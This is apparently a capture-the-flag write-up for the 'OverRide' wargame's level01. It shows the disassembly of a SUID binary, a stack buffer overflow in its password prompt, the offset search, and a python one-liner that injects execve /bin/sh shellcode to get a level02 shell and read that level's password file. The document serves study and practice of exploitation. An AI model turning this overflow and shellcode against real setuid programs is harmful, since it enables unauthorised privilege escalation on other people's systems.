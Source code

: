 # Level01 Exploit

## 1. Initial Analysis

List the files in the directory:

```bash
level01@OverRide:~$ ls -l
total 8
-rwsr-s---+ 1 level02 users 7360 Sep 10  2016 level01
```

The `level01` binary has the SUID bit set, which means it will run with the permissions of the owner of the file, in this case `level02`.

## 2. Program Execution

Observe the program behavior:

```bash
level01@OverRide:~$ ./level01 
********* ADMIN LOGIN PROMPT *********
Enter Username: admin
verifying username....

nope, incorrect username...

level01@OverRide:~$ 
```

The program prompts for a username. We can see that the username `admin` is incorrect.

## 3. Disassembling `main` Function

Use GDB to disassemble the `main` function:

```bash
level01@OverRide:~$ gdb level01
(gdb) disass main
```

You can convert the assembly code to C using the [CodeConvert](https://www.codeconvert.ai/assembly-to-c++-converter) tool. You can find the converted code in [source.c](source.c).

We also use Ghidra to decompile the binary. You can find the decompiled code by Ghidra in [ghidra_level01.c](Ressources/ghidra_level01.c).

## 4. Program Analysis

With the decomplied code, we can see that the program declare a buffer of 100 bytes. The username is read with `fgets` and inserted into the `a_user_name` global variable.
```c
fgets(a_user_name, 0x100, stdin);
```

With `Ghidra`, we can see that the first 7 characters of `a_user_name` are compared with `dat_wil`.

```bash
level01@OverRide:~$ ./level01 
********* ADMIN LOGIN PROMPT *********
Enter Username: dat_wil
verifying username....

Enter Password: 
```

If the comparison is successful, the program will prompt for a password.

The password is read with `fgets` and inserted into a buffer declared previously. The buffer has a size of 64 bytes. But `fgets` reads `0x64` bytes, which is 100 bytes.
```c
fgets(buffer, 0x64, stdin);
```

It's a buffer overflow vulnerability.

## 5. Exploitation

### 5.1. Find the Offset

We can exploit this vulnerability by overflowing the buffer with a password bigger than 64 bytes.
We generate a pattern with [Wiremask](https://wiremask.eu/tools/buffer-overflow-pattern-generator/).
```bash
Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2A
```

We can then use the pattern to find the offset where the return address is overwritten.
```bash
level01@OverRide:~$ gdb ./level01
(gdb) run
Starting program: /home/users/level01/level01 
********* ADMIN LOGIN PROMPT *********
Enter Username: dat_wil
verifying username....

Enter Password: 
Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2A
nope, incorrect password...


Program received signal SIGSEGV, Segmentation fault.
0x37634136 in ?? ()
(gdb) info registers eip
eip            0x37634136	0x37634136
```
The offset is 80 bytes.

### 5.2. Find the address of the `a_user_name` global variable

We can find the address of the `a_user_name` global variable with GDB.

```bash
(gdb) break main
Breakpoint 1 at 0x80484d5
(gdb) run
The program being debugged has been started already.
Start it from the beginning? (y or n) y
Starting program: /home/users/level01/level01 

Breakpoint 1, 0x080484d5 in main ()
(gdb) info address a_user_name
Symbol "a_user_name" is at 0x804a040 in a file compiled without debugging.
```
The address of the `a_user_name` global variable is `0x804a040`.

### 5.3 Execute the Exploit

We will inject shellcode into the buffer to spawn a shell. We will also overwrite the return address with the address of the `a_user_name` global variable, which contains the shellcode.
The shellcode is:
```bash
\x6a\x0b\x58\x99\x52\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x31\xc9\xcd\x80
```

So for the username we insert `dat_wil` + the shellcode.
For the password we insert the padding + the address of the `a_user_name` global variable.
The address of the `a_user_name` global variable is `0x804a040`, but the shellcode begins after `dat_wil`, so we need to add 7 bytes to the address. The address to insert is `0x804a047` -> `\x47\xa0\x04\x08`.

We will use `python -c "print` to prepqre the input. `fgets` read the stdin until a newline character, so we need to add a newline character between the username and the password.

```bash
python -c "print 'dat_wil' + '\x6a\x0b\x58\x99\x52\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x31\xc9\xcd\x80' + '\n' + 'Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac' + '\x47\xa0\x04\x08'" > /tmp/test
```

We can then run the exploit:
```bash
level01@OverRide:~$ cat /tmp/test - | ./level01
********* ADMIN LOGIN PROMPT *********
Enter Username: verifying username....

Enter Password: 
nope, incorrect password...

whoami
level02
cat /home/users/level02/.pass
PwBLgNa8p8MTKW57S7zxVAQCxnCpV8JqTTs9XEBv
```

Congratulations! You have successfully exploited the `level01` binary and found the password for `level02`.

```bash
level01@OverRide:~$ su level02
Password: 
```
